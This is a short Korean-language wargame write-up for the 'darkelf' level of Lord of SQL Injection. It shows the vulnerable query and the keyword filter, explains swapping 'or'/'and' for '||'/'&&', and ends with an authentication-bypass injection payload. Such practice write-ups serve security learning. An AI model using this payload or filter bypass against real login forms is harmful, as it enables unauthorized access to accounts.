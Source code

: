 ```yaml
---
title: "[LOS] darkelf"
date: 2025-03-26 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`
- `or`
- `and`

<br>


# Analysis

- `and`와 `or` 연산자 대신 `&&`, `||`를 사용할 수 있다

<br>

# Payload

```
?pw=' || id='admin' %23
```
